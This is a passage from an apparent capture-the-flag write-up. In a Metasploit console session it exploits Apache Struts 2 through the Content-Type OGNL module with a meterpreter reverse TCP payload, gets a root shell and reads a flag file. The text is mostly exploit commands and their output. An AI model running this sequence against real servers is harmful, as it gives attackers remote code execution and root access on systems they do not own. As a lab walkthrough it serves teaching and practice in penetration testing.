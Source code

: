 4  exploit/multi/http/struts_code_exec_classloader  2014-03-06       manual     No     Apache Struts ClassLoader Manipulation Remote CodeExecution
5  exploit/multi/http/struts_code_exec_parameters   2011-10-01       excellent  Yes    Apache Struts ParametersInterceptor Remote CodeExecution
6  exploit/multi/http/struts_dev_mode               2012-01-06       excellent  Yes    Apache Struts 2 Developer Mode OGNL Execution

msf5 > use exploit/multi/http/struts2_content_type_ognl
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/http/struts2_content_type_ognl) > show options

Module options (exploit/multi/http/struts2_content_type_ognl):

Name       Current Setting     Required  Description
----       ---------------     --------  -----------
Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS                         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT      8080                yes       The target port (TCP)
SSL        false               no        Negotiate SSL/TLS for outgoing connections
TARGETURI  /struts2-showcase/  yes       The path to a struts application action
VHOST                          no        HTTP server virtual host

Payload options (linux/x64/meterpreter/reverse_tcp):

Name   Current Setting  Required  Description
----   ---------------  --------  -----------
LHOST  <local-ip>     yes       The listen address (an interface may be specified)
LPORT  4444             yes       The listen port

Exploit target:

Id  Name
--  ----
0   Universal

msf5 exploit(multi/http/struts2_content_type_ognl) > set RHOSTS <ip>
RHOSTS => <ip>
msf5 exploit(multi/http/struts2_content_type_ognl) > set TARGETURI /showcase.action
TARGETURI => /showcase.action
msf5 exploit(multi/http/struts2_content_type_ognl) > set RPORT 80
RPORT => 80{% endraw %}{% endcapture %} {% include code.html code=code%}

Exploiting with the set options will gain a `shell`, where `flag` can be retrieved.
{% capture code %}{% raw %}msf5 exploit(multi/http/struts2_content_type_ognl) > exploit

[*] Started reverse TCP handler on <local-ip>:4444
[*] Sending stage (3012516 bytes) to <ip>
[*] Meterpreter session 1 opened (<local-ip>:4444 -> <ip>:57606) at 2021-01-23 13:39:13 +0000

meterpreter > shell
Process 58 created.
Channel 1 created.
script -qc /bin/bash /dev/null

root@<hostname>:/usr/local/tomcat# find / -type f -iname *flag.txt*
find / -type f -iname *flag*
<flag-file>

root@<hostname>:/usr/local/tomcat# cat <flag-file>
cat <flag-file>
    <flag>{% endraw %}{% endcapture %} {% include code.html code=code%}
